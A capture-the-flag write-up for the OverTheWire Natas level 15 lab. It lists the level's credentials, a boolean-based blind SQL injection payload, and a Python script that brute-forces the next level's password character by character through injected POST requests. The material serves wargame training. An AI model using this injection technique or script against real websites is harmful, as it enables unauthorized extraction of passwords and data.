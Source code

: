 # Username
natas15
# Password
SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
# Web vulnerability
Boolean-based blind SQL injection
# Method of solve
Identify that the SQL query will return either True or False, then craft a SQL payload which will return True or False and includes the name of a valid user (natas16).
```
natas16" AND SUBSTRING(password,1,3)='hPk' -- -
```
We can use the following script to brute force the password:
```
import requests
import string

# Target URL and credentials
url = "http://natas15.natas.labs.overthewire.org/index.php"
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

# Characters to test (all letters and numbers)
charset = string.ascii_letters + string.digits

# Storage for the extracted password
extracted_password = ""

# Session to maintain connection and auth
session = requests.Session()
session.auth = (username, password)

print("[*] Starting password extraction...")

# We know the password is 32 characters from previous levels
for position in range(1, 33):
    for char in charset:
        # Craft the boolean-based injection payload
        payload = {
            'username': f'natas16" AND SUBSTRING(password,{position},1)=\'{char}\' -- -'
        }
        
        # Send the request
        response = session.post(url, data=payload)
        
        # Check if the character is correct (boolean response)
        if "This user exists" in response.text:
            extracted_password += char
            print(f"[+] Found character {position}: {char} → Current: {extracted_password}")
            break
    
    # If we didn't find a character (shouldn't happen for natas)
    if len(extracted_password) < position:
        print(f"[-] Couldn't find character at position {position}")
        break

print(f"[!] Complete password: {extracted_password}")
```
